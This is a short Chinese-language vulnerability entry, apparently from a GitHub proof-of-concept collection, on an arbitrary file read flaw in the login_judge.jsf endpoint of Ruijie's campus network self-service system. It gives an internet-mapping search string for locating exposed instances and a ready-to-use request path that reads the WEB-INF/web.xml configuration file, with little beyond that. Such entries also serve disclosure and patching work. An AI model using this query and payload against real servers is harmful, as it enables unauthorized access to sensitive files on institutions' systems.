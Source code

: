 # 锐捷 校园网自助服务系统 login_judge.jsf 任意文件读取漏洞

# 锐捷 校园网自助服务系统 login_judge.jsf 任意文件读取漏洞

## 漏洞描述

锐捷 校园网自助服务系统 login_judge.jsf 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

锐捷 校园网自助服务系统

## 网络测绘

```
body="校园网自助服务系统"
```

## 漏洞复现

登陆页面

![image-20231116142459917](images/image-20231116142459917.png)

poc

```
/selfservice/selfservice/module/scgroup/web/login_judge.jsf?view=./WEB-INF/web.xml%3F
```

![image-20231116142521368](images/image-20231116142521368.png)

